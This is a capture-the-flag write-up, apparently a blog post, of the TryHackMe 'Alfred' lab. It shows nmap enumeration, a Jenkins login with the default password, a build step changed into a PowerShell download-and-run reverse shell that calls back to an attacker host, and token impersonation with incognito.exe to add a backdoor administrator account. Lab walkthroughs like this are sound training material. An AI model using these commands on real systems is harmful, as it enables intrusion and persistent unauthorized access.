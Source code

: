 ```yaml
---
layout: post
title: "Alfred"
description: "Exploit misconfigured Jenkins and escalate privileges with the impersonation of Windows token"
---
```


[Alfred](https://tryhackme.com/room/alfred) is the second machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

The output of the nmap scan:
```
nmap -sC -sV 10.10.0.34
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 05:25 EDT
Nmap scan report for 10.10.0.34
Host is up (0.053s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.30 seconds
```

Port `8080` contains `Jenkins` login page.
According to `Jenkins` documentation, default credentials should be the `admin:password` pair, but this is not the case.
The first option to check is other "default" password pairs. `admin:admin` will do the trick this time.

---

## Exploitation
A few words about `Jenkins` before we move on:
> Jenkins – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.

From the attacker's perspective, this is a goldmine. First, you can execute system command with it. Second, already created projects and builds might contain a ton of priceless data.

We can see that `Jenkins` is already has a build for the project named, well, `project`.

Navigate to the configurations of the project:
```
http://10.10.0.34:8080/job/project/configure
```

We are looking for the `Build` section of it. You can see that to make a new build, `Jenkins` execute a `Windows bash command` and running `whoami` command.
Let's replace the `whoami` command and download a reverse shell to our `Kali Linux` machine.

A common way to do that with the Windows box is to use something like [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) `PowerShell` reverse shell.

Simply add the line to the end of the file:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.11.19.53 -Port 1337
```

Serve the HTTP server to host that file by executing the following command:
```
sudo python -m SimpleHTTPServer 80
```

Prepare a listener on the port `1337` with `nc`:
```
sudo nc -nlvp 1337
```
We are done with preparations on the `Kali Linux` side, let's modify the `Build` command in `Jenkins` now.
Replace the `whoami` with the following:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.19.53/Invoke-PowerShellTcp.ps1')
```
Hit the `Build Now` and take a break for a second.
`Jenkins` will make a new build and by doing that, it will also download and execute your reverse shell as a user `bruce`.

---

## PrivEsc

Let's check what privileges the user `bruce` has:

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeDebugPrivilege                Debug programs                            Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
```

The official guide is covering only the way how to do it with `Metasploit`, but of course, you can do the same without it.

The role `SeImpersonatePrivilege` allows you to impersonate a client. We can exploit that to gain privileged access to the local system.
The official guide is also offering you to use the `incognito` module for `Metasploit`, but you can [download](https://github.com/milkdevil/incognito2) it as a stand-alone binary.
Transfer `incognito.exe` to the machine in any preferred way.
If you don't have one, you can use this `PowerShell` one-liner:
```
(New-Object System.Net.WebClient).DownloadFile("https://<YOUR_IP>/<FILE_NAME>", "C:\<PATH_TO_THE_FILE><FILE_NAME>")  
```

When you will have your file on the box, you can impersonate `NT AUTHORITY\SYSTEM` token as the official guide recommend you, but you could also create a new user with admin rights:

```
PS C:\users\public\Documents> ./incognito.exe add_user carrotcake SuperSecretPassw0rd123                             
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.                                                
[*] Enumerating tokens                                                                                               
[*] Attempting to add user carrotcake to host 127.0.0.1                                                              
[+] Successfully added user                 


PS C:\users\public\Documents> ./incognito.exe add_localgroup_user Administrators carrotcake                          
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.                                                
[*] Enumerating tokens                                                                                               
[*] Attempting to add user carrotcake to local group Administrators on host 127.0.0.1                                
[+] Successfully added user to local group  
```
Here we are creating a new user `carrotcake` with the password `SuperSecretPassw0rd123` via `incognito.exe`, and then adding this account to the local group `Administrators`.

You can now try to login to the box with a new account. We can use `RDP` protocol as the port `3389` is open:
```
rdesktop -u carrotcake -p SuperSecretPassw0rd123 10.10.0.34
```
OR you can use the tool `Remmina` instead of `rdesktop`. It has a built-in screenshot taker and works way more stable in my taste.
[How to install Remmina](https://remmina.org/how-to-install-remmina/)

---

## Takeaway
- You don't have to always look for a way to exploit the service. Sometimes you just need to use it
- Understanding of the environment can help you to achieve your goals
- Creating a new user sometimes might be the easiest way to get persistent access to the system
